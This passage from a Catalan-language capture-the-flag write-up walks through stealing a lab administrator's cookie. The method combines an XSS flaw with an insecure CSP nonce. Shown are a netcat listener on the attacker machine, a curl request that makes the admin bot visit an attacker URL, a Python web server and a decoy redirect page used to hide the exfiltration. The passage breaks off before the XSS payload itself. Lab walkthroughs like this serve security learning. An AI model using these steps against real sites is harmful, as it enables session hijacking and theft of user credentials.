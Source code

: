 El més rellevant del missatge és que indica que l'administrador visitarà de forma immediata la URL proporcionada.

### Exfiltració de cookies de l'administrador

Per verificar que l'administrador realment visita les URLs proporcionades a través de l'API, configurem un listener amb netcat a la nostra màquina atacant.

```bash
nc -lvp 80
```

i enviem una sol·licitud a l'API incloent una URL que apunti a la IP de la nostra màquina atacant (en aquest cas, 10.0.2.7) des d'un altre terminal per comprovar si l'administrador accedeix a ella.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://10.0.2.7"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

Després d'aproximadament 30 segons, rebem una sol·licitud entrant al nostre listener de netcat, confirmant que l'administrador ha accedit a la URL proporcionada.

![](../../../assets/images/slywindow/20250801_020051_image.png)

Es confirma que l'administrador visita les URLs enviades a través de l'API, encara que únicament ho fa una vegada. Sabent que existeix una vulnerabilitat de XSS a `http://www.slywindow.nyx/admin.php?message=`, i aprofitant un `nonce` insegur a les capçaleres CSP, podem enviar un enllaç maliciós a l'administrador amb l'objectiu de robar la seva cookie.

En primer lloc, és necessari obtenir novament el valor actual del `nonce` insegur de les capçaleres, ja que aquest podria haver canviat des de l'última vegada que el vam capturar.

A continuació, creem un arxiu `index.html` a la nostra màquina atacant que redirigeix a Google, simulant una acció legítima.

```bash
echo '<script>location.href="https://www.google.com";</script>' > index.html
```

A continuació, aixequem un servidor web amb Python a la mateixa carpeta on es troba l'arxiu `index.html` que redirigeix a google.com, amb l'objectiu de camuflar l'exfiltració de cookies.

```bash
python3 -m http.server 80
```

Abans d'atacar l'administrador, provem l'exfiltració de cookies a la nostra pròpia sessió. Per a això, generem l'script maliciós i el codifiquem en URL dins del paràmetre `?error=`.
